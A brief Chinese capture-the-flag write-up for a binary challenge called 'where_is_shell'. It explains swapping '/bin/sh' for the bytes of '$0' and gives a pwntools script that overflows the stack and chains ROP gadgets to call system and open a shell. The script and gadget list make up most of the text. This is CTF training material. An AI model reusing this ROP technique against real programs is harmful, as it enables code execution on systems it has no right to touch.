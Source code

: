 ### where_is_shell
### 考点：用$0的机器码代替/bin/sh拿到shell\

![[Pasted image 20240918231511.png]]

![[Pasted image 20240918231450.png]]
收获：/bin/sh可以用$0代替，而其机械码就是\\x24\\x30，这题就是用的这个方法，同时还可以用sh。


WP
```
from pwn import*

p = process('./shell')
elf = ELF('./shell')
sys=elf.symbols['system']
p.recvuntil("zltt lost his shell, can you find it?")
pay=b'a'*0x18+p64(0x400416)+p64(0x4005e3)+p64(0x400541)+p64(sys)

# Gadgets information

========================================================
# 0x00000000004005dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005de : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005e0 : pop r14 ; pop r15 ; ret
# 0x00000000004005e2 : pop r15 ; ret
# 0x00000000004005db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004005df : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004004b8 : pop rbp ; ret
# 0x00000000004005e3 : pop rdi ; ret
# 0x00000000004005e1 : pop rsi ; pop r15 ; ret
# 0x00000000004005dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400416 : ret 

p.send(pay)
p.interactive()
```
